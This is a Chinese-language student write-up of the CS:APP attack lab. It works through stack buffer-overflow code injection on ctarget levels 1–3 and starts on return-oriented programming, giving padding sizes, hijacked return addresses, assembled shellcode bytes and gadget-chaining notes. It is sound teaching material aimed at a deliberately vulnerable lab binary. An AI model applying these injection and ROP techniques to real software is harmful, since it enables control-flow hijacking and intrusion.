



# 过程
## ctarget level1
    先反汇编看看
    900行开始： test
    没什么特别的,两个断点打起来
    好像不是很允许运行程序
    需要先构造一组合适的输入
    不然会直接段错误
    根据getbuf代码
    我们需要0x28 也就是40字节的内容
    所以正常读入需要40个字节 进入局部变量区
    然后溢出攻击地址：  00 00 00 00 00 40 17 c0
        64位程序，地址是8个字节
        小心地采用小端法
        注入一下，成功了
    


## ctarget level2
    8的栈空间
    edx会转存edi的内容，也就是传入参数cookie：  0x59b997fa
    所以我们想要设置rdi 等于  0x59b997fa
    也就是要执行一个命令

```
    mov  $0x59b997fa,%rdi
```

    并且我们还希望随后执行touch2的代码
    也就是我们之后还要跳转到touch2： 00 00 00 00 00 40 17 ec

    所以首先我们劫持的返回地址应该是指向我们的代码，也就是指向输入区（局部变量）
    全部注入代码：
```
(栈底方向)
    ret
    push $0x4017ec
    mov  $0x59b997fa,%rdi
（栈顶方向）
```

    现在我们想办法把这些代码先转到16进制数
```
  objdump -d inject.o


inject.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          push   $0x4017ec
   c:   c3                      ret    
```

    为了能够把返回地址指到我们需要的地方
    我们在gdb断点找到栈的地址，然后算出要去的相对地址
    注意我们写的是gets读入的内容是地址从低到高
    也就是天生是从栈顶到栈底
```
(gdb) print $rsp
$1 = (void *) 0x5561dca0
```

    所以我们写的地址：相对目前rsp更低0x28（开始写入的栈上地址）
    构造跳转地址
    0x5561dc78
    78 dc 61 55
    按照规范的16进制写好
    好耶~！



## ctarget level3
    touch3 里面会调用hexmatch，我们需要保证其正确match
    也就是我们要给它传入参数：cookie 的16进制小写字符串
    cookie: 0x59b997fa
    也就是我们还是要设置%rdi
    rdi需要存入cookie字符串的首地址
    但是这次我们要找到合适地址存放，毕竟是一个比较长的字符串
    因为在比对的时候，hexmatch有一个随机写入
    可能会破坏我们注入的字符串
    我们把需要的字符串继续向高地址溢出
    放到返回地址的上面去，这里肯定不会被访问
    所以cookie我们放在注入的最后
    那么它对应的地址应该是执行getbuf的时候的rsp的高8字节开始一路向上
    也就是0x5561dca0 + 8 = 0x5561dca8

- cookie的ascii：
    35 39 62 39 39 37 66 61 00

```
 objdump -d inject.o


inject.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 8b 3c 25 a8 dc 61    mov    0x5561dca8,%rdi
   7:   55 
   8:   68 fa 18 40 00          push   $0x4018fa
   d:   c3                      ret    
```

开始注入！

哇写错了，存入rdi的应该是立即数

```
inject.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          push   $0x4018fa
   c:   c3                      ret    
```


## ROP level2
    从这里我们首先发现栈的位置随机在前面的ctarget并没有实现，被关闭了
    我们知道代码段的地址，想要关心rsp所操作的栈的地址
    解释了当初ctarget level2的疑惑
    我们只要一次在运行中截断得到栈的地址就可以一直用
    归根结底是因为它并不变化

### 小工具操作 gadget
    我们可以断章取义，从汇编代码某句中间开始往后读
    从而得到我们想要的 可执行代码片段
    而且这个片段正是原文中原有的可执行代码（只是被有意的截取了）
    如果结尾是跳转指令就可以把小工具穿成串连续执行了
```
# 最常见：ret
pop    %rdi
ret              # 0xc3

# 也可以：间接跳转
pop    %rax
jmp    *%rax     # 0xff e0

# 或者：条件跳转 + ret
je     label
ret

# 或者：call 指令（少见）
pop    %rdi
call   *%rax
```
    首先反汇编
    整体做的事情和之前一致

```   
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          push   $0x4017ec
   c:   c3                      ret    
```
其中第一行fa 97 b9 59并没有对应小工具